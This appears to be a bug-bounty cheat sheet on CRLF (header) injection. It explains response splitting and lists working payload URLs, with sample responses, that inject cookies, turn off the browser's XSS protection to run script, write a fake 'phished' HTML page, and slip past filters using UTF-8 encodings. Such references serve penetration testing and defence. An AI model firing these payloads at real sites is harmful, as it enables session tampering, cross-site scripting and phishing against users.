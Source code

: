 # CRLF
C → Carriage 

R → Return 

L  → Line

F  → Feed

the concept in this type of bug is you forge the request and customize it to cause an break and make new line and set a custom response from server.

alone CRLF has no impact at all although in pertest you have to report it.

you can use CRLF to leads the bellow bugs:

1-XSS(Reflected)

2-Open Redirect 

### the scenario

1. Add a fake HTTP response header: Content-Length: 0. This causes the
web browser to treat this as a terminated response and begin parsing a
new response.
2. Add a fake HTTP response: HTTP/1.1 200 OK. This begins the new response.
3. Add another fake HTTP response header: Content-Type: text/html. This is needed for the web browser to properly parse the content.
4. Add yet another fake HTTP response header: Content-Length: 25. This causes the web browser to only parse the next 25 bytes.
5. Add page content with an XSS: <script>alert(1)</script>. This content has exactly 25 bytes.
6. Because of the Content-Length header, the web browser ignores the original content that comes from the web server.

`http://www.example.com/somepage.php?page=
Content-Length: 0
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 25
<script>alert(1)</script>`

decoded:

`http://www.example.com/somepage.php?page=`
`Content-Length: 0`

`HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 25`

`<script>alert(1)</script>`

## CRLF - Add a cookie

Requested page

```
http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue
```

HTTP Response

```
Connection: keep-alive
Content-Length: 178
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Location: https://www.example.net/[INJECTION STARTS HERE]
Set-Cookie: mycookie=myvalue
X-Frame-Options: SAMEORIGIN
X-Sucuri-ID: 15016
x-content-type-options: nosniff
x-xss-protection: 1; mode=block
```

## CRLF - Add a cookie - XSS Bypass

Requested page

```
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```

HTTP Response

```
HTTP/1.1 200 OK
Date: Tue, 20 Dec 2016 14:34:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 22907
Connection: close
X-Frame-Options: SAMEORIGIN
Last-Modified: Tue, 20 Dec 2016 11:50:50 GMT
ETag: "842fe-597b-54415a5c97a80"
Vary: Accept-Encoding
X-UA-Compatible: IE=edge
Server: NetDNA-cache/2.2
Link: <https://example.com/[INJECTION STARTS HERE]
Content-Length:35
X-XSS-Protection:0

23
<svg onload=alert(document.domain)>
0
```

## CRLF - Write HTML

Requested page

```
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```

HTTP response

```
Set-Cookie:en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 34

		<html>You have been Phished</html>
```

## CRLF - Filter Bypass

Using UTF-8 encoding

```
%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28innerHTML%28%29%E5%98%BE
```

Remainder:

- %E5%98%8A = %0A = \u560a
- %E5%98%8D = %0D = \u560d
- %E5%98%BE = %3E = \u563e (>)
- %E5%98%BC = %3C = \u563c (<)

## Exploitation Tricks

- Try to search for parameters that lead to redirects and fuzz them
- Also test the mobile version of the website, sometimes it is different or uses a different backend

check for more [https://github.com/0xmaximus/Galaxy-Bugbounty-Checklist/tree/main/CRLF injection](https://github.com/0xmaximus/Galaxy-Bugbounty-Checklist/tree/main/CRLF%20injection)
